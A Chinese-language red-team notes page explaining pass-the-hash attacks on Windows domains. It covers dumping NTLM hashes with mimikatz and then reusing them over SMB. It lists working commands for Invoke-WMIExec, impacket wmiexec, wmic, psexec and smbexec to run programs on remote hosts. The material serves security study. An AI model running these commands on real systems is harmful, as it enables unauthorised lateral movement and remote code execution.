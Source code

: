**攻击方式**

通常来说，pass-the-hash 的攻击模式是这样的：
1. 获取一台域主机高权限
2. 利用 mimikatz 等工具导出密码 hash
3. 用导出的 hash 尝试登陆其他域主机

要完成一个 NTLM 认证，第一步需要客户端将自己要参与认证的用户名发送至服务器端，等待服务器端给出的 Challenge⋯⋯,其实哈希传递就是使用用户名对应的 NTLM Hash 将服务器给出的 Chanllenge 加密，生成一个 Response，来完成认证。

Pass The Hash 能够完成一个不需要输入密码的 NTLM 协议认证流程，所以不算是一个漏洞，算是一个技巧。

比如 SMB 可以直接基于 TCP 协议或者 NetBIOS over TCP，SMB 的认证可以基于 SMB，也可以基于 kerberos，这两种认证方式，前者本质上使用了 hash，后者本质上使用了 ticket，导致了 SMB 的 PtH 和 PtT 攻击存在的基础。

目前常用的 hash 传递工具都是通过 445 端口进行攻击的，也是因为 smb 使用了 ntml 认证，所以导致可以 hash 传递。

- **mimikatz**

    mimikatz 的 PTH 相关操作见 [mimikatz 笔记](../../安全工具/Mimikatz.md#pth)

- **wmiexec**
    - [Invoke-WMIExec](https://github.com/Kevin-Robertson/Invoke-TheHash)
        ```
        Invoke-Module Invoke-TheHash.psd1
        Invoke-WMIExec -Target 192.168.1.1 -Domain workgroup -Username administrator -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        Invoke-SMBExec -Target 192.168.1.1 -Domain test.local -Username test1 -Hash ccef208c6485269c20db2cad21734fe7 -Command "calc.exe" -verbose
        ```

    - [wmiexec](https://github.com/maaaaz/impacket-examples-windows)
        ```
        wmiexec -hashes 00000000000000000000000000000000:ccef208c6485269c20db2cad21734fe7 workgroup/administrator@192.168.1.1 "whoami"
        ```

- **WMIC**
    ```cmd
    wmic /node:host /user:administrator /p 密码 process call create “c:\windows\temp\foobar.exe”
    ```

- **PStools**
    ```cmd
    psexec.exe \\ip -accepteula -u username -p password program.exe
    ```

    ```
    psexec \\ip -u user -p passwd cmd /c dir D:\
    ```

- **smbexec**
    ```
    copy execserver.exe \\host\c$\windows\
    test.exe ip user password command netshare
    ```
